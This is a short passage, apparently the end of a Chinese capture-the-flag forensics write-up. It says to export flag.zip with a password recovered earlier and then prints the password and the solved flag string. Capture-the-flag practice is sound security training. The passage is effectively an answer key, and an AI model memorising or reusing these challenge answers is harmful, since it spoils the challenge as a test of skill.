​​

然后导出 flag.zip 密码就是上面找到的 oOCDLbkZ9Mtu67Alyh8uAaFHy6KDsCbG，就能得到 flag

flag：flag{Sk\_l!kEs\_aD\_BuT\_Ad\_i5\_7Oo\_Hard\_T\_T}

‍
